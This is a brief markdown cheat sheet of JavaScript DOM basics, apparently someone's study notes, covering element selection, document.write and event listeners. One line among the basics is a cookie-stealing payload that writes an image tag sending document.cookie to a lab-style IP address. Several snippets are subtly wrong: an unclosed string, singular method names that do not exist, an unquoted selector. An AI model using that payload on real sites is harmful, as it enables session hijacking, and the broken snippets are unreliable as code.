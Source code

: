 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> 
> document.getElementById('1');
> 
> document.getElementByTagName('div');
> 
> document.getElementByClassName('list-items');
> 
> document.querySelector(#main-heading);
> 
> document.querySelectorAll('div');
> 
> 
> document.write('something');
> 
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
>element.addEventListener("click", function);
>
>element.addEventListener("mouseover", function);
>

### Window Objects
>
>
#
